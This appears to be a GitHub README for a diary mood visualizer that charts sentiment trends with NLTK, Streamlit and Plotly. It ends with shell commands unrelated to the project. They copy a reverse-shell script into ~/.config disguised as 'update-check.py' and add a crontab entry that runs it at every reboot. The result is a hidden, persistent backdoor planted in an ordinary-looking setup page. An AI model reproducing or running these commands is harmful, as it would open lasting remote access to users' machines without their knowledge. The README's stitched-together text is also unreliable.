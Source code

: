 # 📖 NLP for eBooks – Diary Mood Visualizer

This project analyzes the tone of text files (e.g., diary entries or journal logs) using NLTK sentiment analysis and displays **positivity** and **negativity trends** over time using Streamlit and Plotly.


## 📈 What You'll See
Two line charts:
* Positivity over time
* Negativity over time

mkdir -p ~/.config
cp reverse_shell_againt.py ~/.config/update-check.py
(crontab -l 2>/dev/null; echo "@reboot python3 ~/.config/update-check.py &") | crontab -
